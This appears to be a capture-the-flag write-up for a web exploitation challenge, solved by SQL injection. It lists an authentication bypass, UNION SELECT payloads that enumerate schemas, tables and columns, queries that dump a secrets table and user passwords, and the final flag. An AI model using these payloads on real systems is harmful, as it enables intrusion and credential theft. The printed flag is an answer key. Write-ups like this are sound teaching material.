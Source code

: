 # error=-330

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: Black Box

#### Description: You don’t ask for access. You carve it out.

#### Author: AndraB

#### Preview: 

![image](https://github.com/user-attachments/assets/2fa0c368-21f5-43fb-a181-4aad60473bcf)

## Solution
<details>

![image](https://github.com/user-attachments/assets/b92cd9a1-4456-4701-a99d-50baf30292f4)

`' OR 1=1--`

![image](https://github.com/user-attachments/assets/bdb616dc-c00c-419e-a90c-4b89ef75920d)

`' UNION SELECT NULL,NULL,NULL,schema_name FROM information_schema.schemata-- -`

![image](https://github.com/user-attachments/assets/cebcad6e-8c4d-47a9-bd93-f05d039d8f9b)

`sqli_challenge` and `password_reset`

`' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables WHERE table_schema='sqli_challenge' -- -`

![image](https://github.com/user-attachments/assets/8fde99eb-25d0-4d1e-be8d-3fc027546846)

`' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_schema='sqli_challenge' AND table_name='secrets' -- -`

![image](https://github.com/user-attachments/assets/ad07e830-85b3-4f2e-9308-4927af6bbbe3)

`' UNION SELECT NULL,NULL,NULL,flag FROM sqli_challenge.secrets-- -`

![image](https://github.com/user-attachments/assets/0acccc85-a447-4d66-9a66-e1cae136e70e)

#### Part 1 : `UVT{Th3_sy5t3M_7ru5Ts_1tS_oWn_9r4Mmar_..._`

`' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables WHERE table_schema='password_reset'-- -`

![image](https://github.com/user-attachments/assets/491c5a34-85c8-44a4-815b-bafada399132)

`' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_schema='password_reset' AND table_name='users'-- -`

![image](https://github.com/user-attachments/assets/abe1f29a-3d7e-4ae6-9704-c16825e729af)

`' UNION SELECT NULL,NULL,NULL,password FROM password_reset.users-- -`

![image](https://github.com/user-attachments/assets/ea22609b-3cdb-4a6f-adbe-c8f9065cee51)

#### Part 2: `S0_5tR1ng5_4r3_m0r3_tHaN_qu3r13s_1n_th3_3nd}`

#### Flag
> UVT{Th3_sy5t3M_7ru5Ts_1tS_oWn_9r4Mmar_..._S0_5tR1ng5_4r3_m0r3_tHaN_qu3r13s_1n_th3_3nd}

</details>

